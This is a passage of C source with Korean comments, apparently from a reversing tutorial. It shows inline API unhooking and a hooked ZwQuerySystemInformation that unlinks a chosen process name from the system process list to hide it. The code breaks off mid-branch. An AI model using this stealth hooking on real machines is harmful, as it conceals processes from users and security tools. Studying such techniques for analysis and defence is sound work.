 ```c
    pFunc = GetProcAddress(GetModuleHandleA(szDllName), szFuncName);
    pByte = (PBYTE)pFunc;

    // 만약 이미 언후킹 되어 있다면 return FALSE
    if( pByte[0] != 0xE9 )
        return FALSE;

    // 원래 코드(5 byte)를 덮어쓰기 위해 메모리에 WRITE 속성 추가
    VirtualProtect((LPVOID)pFunc, 5, PAGE_EXECUTE_READWRITE, &dwOldProtect);

    // Unhook
    memcpy(pFunc, pOrgBytes, 5);

    // 메모리 속성 복원
    VirtualProtect((LPVOID)pFunc, 5, dwOldProtect, &dwOldProtect);

    return TRUE;
}


NTSTATUS WINAPI NewZwQuerySystemInformation(
                SYSTEM_INFORMATION_CLASS SystemInformationClass, 
                PVOID SystemInformation, 
                ULONG SystemInformationLength, 
                PULONG ReturnLength)
{
    NTSTATUS status;
    FARPROC pFunc;
    PSYSTEM_PROCESS_INFORMATION pCur, pPrev;
    char szProcName[MAX_PATH] = {0,};
    
    // 작업 전에 unhook
    unhook_by_code(DEF_NTDLL, DEF_ZWQUERYSYSTEMINFORMATION, g_pOrgBytes);

    // original API 호출
    pFunc = GetProcAddress(GetModuleHandleA(DEF_NTDLL), 
                           DEF_ZWQUERYSYSTEMINFORMATION);
    status = ((PFZWQUERYSYSTEMINFORMATION)pFunc)
              (SystemInformationClass, SystemInformation, 
              SystemInformationLength, ReturnLength);

    if( status != STATUS_SUCCESS )
        goto __NTQUERYSYSTEMINFORMATION_END;

    // SystemProcessInformation 인 경우만 작업함
    if( SystemInformationClass == SystemProcessInformation )
    {
        // SYSTEM_PROCESS_INFORMATION 타입 캐스팅
        // pCur 는 single linked list 의 head
        pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;

        while(TRUE)
        {
            // 프로세스 이름 비교
            // g_szProcName = 은폐하려는 프로세스 이름
            // (=> SetProcName() 에서 세팅됨)
            if(pCur->Reserved2[1] != NULL)
            {
                if(!_tcsicmp((PWSTR)pCur->Reserved2[1], g_szProcName))
                {
                    // 연결 리스트에서 은폐 프로세스 제거
                    if(pCur->NextEntryOffset == 0)
                        pPrev->NextEntryOffset = 0;
```